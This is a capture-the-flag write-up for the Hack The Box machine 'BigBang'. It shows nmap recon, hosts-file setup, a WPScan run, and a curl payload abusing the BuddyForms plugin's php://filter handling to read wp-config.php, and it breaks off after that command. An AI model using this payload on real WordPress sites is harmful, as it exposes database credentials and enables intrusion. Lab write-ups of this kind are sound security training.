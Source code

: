 # BigBang Write-up

<img src="https://labs.hackthebox.com/storage/avatars/2d22afd496c5ae6f6c51ca24bf3719e1.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.52`    

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 d4:15:77:1e:82:2b:2f:f1:cc:96:c6:28:c1:86:6b:3f (ECDSA)
    |_  256 6c:42:60:7b:ba:ba:67:24:0f:0c:ac:5d:be:92:0c:66 (ED25519)
    80/tcp open  http    Apache httpd 2.4.62
    |_http-title: Did not follow redirect to http://blog.bigbang.htb/
    |_http-server-header: Apache/2.4.62 (Debian)
    Service Info: Host: blog.bigbang.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add domains to `/etc/hosts`

    echo "10.10.11.52 bigbang.htb" | sudo tee -a /etc/hosts

    echo "10.10.11.52 blog.bigbang.htb" | sudo tee -a /etc/hosts

blog.bigbang.htb

![image](https://github.com/user-attachments/assets/c5455da5-9f58-4757-a2dd-41d373f7932f)


Wappalyzer 

![image](https://github.com/user-attachments/assets/f441cb34-f3ae-465a-8d99-085a87613c17)

## Exploitation 




### WPScan

`wpscan --url http://blog.bigbang.htb`



Now did curl to exploit BuddyForms plugin to read wp-config.php

Command used: 

    curl ‘http://blog.bigbang.htb/wp-admin/admin-ajax.php' -d “action=upload_image_from_url&url=php://filter/convert.base64-encode/resource=../wp-config.php&id=1&accepted_files=image/gif”
